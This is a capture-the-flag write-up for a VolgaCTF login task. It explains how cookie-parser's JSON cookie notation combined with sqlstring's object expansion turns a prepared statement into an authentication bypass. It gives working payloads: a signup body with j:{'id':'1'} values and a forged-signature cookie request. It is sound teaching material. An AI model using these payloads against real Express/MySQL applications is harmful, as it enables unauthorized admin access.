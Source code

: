 Login Page
===

A small node.js application containing only user creation and login pages.
The flag is displayed only for the administrator (user with id 1).
```js
    result = await db.awaitQuery("SELECT `id` FROM `users` WHERE `login` = ? AND `password` = ? LIMIT 1", [req.signedCookies.login, req.signedCookies.password])
    if (result.length === 1) {
        if(result[0].id === 1) {
            message = "Welcome admin. Your flag " + flag
```

After registration, the user's login and password is stored in a signed cookies.
```js
app.post('/signup', [ validator.body('login').isString().isLength({ max: 64 }).trim(), validator.body('password').isString().isLength({ max: 64 }) ], async (req, res) => {
  const db = await pool.awaitGetConnection()
  try {
    validator.validationResult(req).throw()
    result = await db.awaitQuery("SELECT `id` FROM `users` WHERE `login` = ?", [req.body.login])
    if (result.length != 0) 
      return res.render('signup', {error: 'User already exists'})
    result = await db.awaitQuery("INSERT INTO `users` (`login`, `password`) VALUES (?, ?)", [req.body.login, req.body.password])
    res.cookie('login', req.body.login, { signed: true })
    res.cookie('password', req.body.password, { signed: true })
```

The cookie parser supports writing objects to cookie values via the `j:{"json":"object"}` notation. At the same time, due to the incorrect parsing order, the string written to the signed cookie can be parsed as an object.

https://github.com/expressjs/cookie-parser/blob/e5862bdb0c1130450a5b50bc07719becf0ab8c81/index.js#L62-L65
```js
    // parse signed cookies
    if (secrets.length !== 0) {
      req.signedCookies = signedCookies(req.cookies, secrets)
      req.signedCookies = JSONCookies(req.signedCookies)
```

The mysql-await library used in the task uses [sqlstring](xxx), which handles non-string parameters in queries in a very specific way by default.

https://github.com/mysqljs/sqlstring/blob/cd528556b4b6bcf300c3db515026935dedf7cfa1/lib/SqlString.js#L170-L184
```js
SqlString.objectToValues = function objectToValues(object, timeZone) {
  var sql = '';
  for (var key in object) {
    var val = object[key];
    if (typeof val === 'function') {
      continue;
    }
    sql += (sql.length === 0 ? '' : ', ') + SqlString.escapeId(key) + ' = ' + SqlString.escape(val, true, timeZone);
  }
  return sql;
};
```

```js
id = {"x":"y"}
sqlstring.format('select 1 from dual where id = ?', [id])
// select 1 from dual where id = `x` = 'y'
```

Thus, if objects are used in a prepared statement, this can change the selection conditions and, as a result, lead to authorization bypass.

**Solution**

Create user 
```
login=j:{"id":"1"}&password=j:{"id":"1"}
```
The following SQL query is generated during authorization
```sql
SELECT `id` FROM `users` WHERE `login` = `id` = '1' AND `password` = `id` = '1' LIMIT 1
```
Which returns the admin ID as a result.

Unfortunately, due to incorrect validation of signed cookies, there was a very simple unintended solution in the first version. In case the cookie signature of the value is invalid, but the entry format was correct `s:<value>.<signature>`. Values in `signedCookies` returns `false` instead of `undefined`, which, as a result, also changes the selection conditions and allows you to log in as an administrator.
```http
GET / HTTP/1.1
Host: login.volgactf-task.ru
Cookie: login=s:anything.anything; password=s:anything.anything;
```
```
SELECT `id` FROM `users` WHERE `login` = FALSE AND `password` = FALSE LIMIT 1
```